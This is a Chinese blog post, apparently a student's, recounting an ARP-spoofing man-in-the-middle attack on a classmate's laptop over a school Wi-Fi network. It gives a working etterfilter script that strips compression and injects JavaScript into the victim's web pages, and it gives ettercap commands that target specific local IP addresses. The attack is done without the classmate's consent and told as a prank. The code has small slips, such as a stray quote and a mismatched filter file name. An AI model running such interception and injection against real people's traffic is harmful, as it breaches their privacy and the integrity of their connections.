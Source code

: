 ```yaml
---
layout: post
title: 记一次非针对LGC的中间人攻击
excerpt: 真的是非针对哦(¬_¬)
date:   2016-09-13
tag:
  - hack
---
```


## 序
自从昨天9月12日停电以后，历二信竞队教室原本70Mbs的网络，莫名其妙的降到了10Mbs不到……网页大规模卡崩，ping baidu.com丢包严重。这对于历二信竞队来讲，简直就是一场灾难……  
  这差不多算是没了网，奥赛室一片死寂。Gengxin抬头望去，LGC居然还在看视频！！！  
  他在看视频！  
  在看视频！  
  看视频！  
  视频！  
  频！  
  ！  
这个就有点尴尬了……既然全教室的网这么慢，你还在看视频!Gengxin有点小愤怒。打开路由器管理界面，嗯……流量全在LGC那。很久以前就发现，LGC的小笔记本网卡似乎比我们的更好一点，在很远的地方也能收到wifi信号，并且……还是接近满格！如果让流量先经过Gengxin的渣渣网卡呢？\\(¬\_¬\)于是Gengxin默默的打开了自己的Kali虚拟机。  

## One
首先科普一下，什么是中间人攻击。  
中间人攻击（Man-in-the-middle attack，缩写：MITM）是指攻击者与通讯的两端分别创建独立的联系，并交换其所收到的数据，使通讯的两端认为他们正在通过一个私密的连接与对方直接对话，但事实上整个会话都被攻击者完全控制。（以上引自[维基百科](https://zh.wikipedia.org/wiki/%E4%B8%AD%E9%97%B4%E4%BA%BA%E6%94%BB%E5%87%BB)）。简单的说，就是LGC电脑的流量都会流经Gengxin的电脑，而路由器和LGC的电脑都会傻傻的以为自己正在安全的连接对方。  
这里，Gengxin用了一个非常有名的多用途嗅探器——ettercap。其实如果不用这个工具的话，攻击的过程也十分简单，可以用一个Python脚本轻松实现——scapy库查看编辑数据包是十分方便的。  

## Two  

Kali系统下ettercap是预置的，所以我不需要额外的安装。
<figure>
  <a href=""><img src=""></a>
</figure>
好的，既然LGC在浏览网页，那就来个HTML注入好了。“Gengxin 想 ban 你 哦”。  
我们首先要写一个过滤脚本。  

{% highlight cpp %}
if (ip.proto == TCP && tcp.dst == 80)
{
    if (search(DATA.data, "Accept-Encoding"))
    {
        replace("Accept-Encoding", "Q'W'Q");
        msg("就是不让你压缩Q'W'Q\n");
    }
}
if (ip.proto == TCP && tcp.src == 80)
{
    replace("<head>", "<head><script type="text/javascript">alert('Gengxin想ban你哦Q/W\\Q');</script>");
    replace("<HEAD>", "<HEAD><script type="text/javascript">alert('Gengxin想ban你哦Q/W\\Q')');</script>");
    msg("成功注入Q'W'Q!!\n");
}  
{% endhighlight %}


这段代码第一个if块，是如果网页源码中有Accept-Encoding的时候，替换掉它（Accept-Encoding是声明浏览器支持的编码类型，在这里可以理解为请求压缩的意思）。第二个if块就是我们插入HTML的地方了。js代码里`alert("")`会使网页出现一个弹窗。这就是我要达到的目的。  

OK，把这段代码保存为`banLGC.filter`.   

接下来，编译我们刚刚的banLGC.filter脚本。代码如下：

~~~
etterfilter banLGC.filter -o banLGC.ef
~~~

zhanwei

~~~
ettercap -i eth0 -Tq -M arp:remote /192.168.31.106// /192.168.31.1// -F alert.ef
~~~
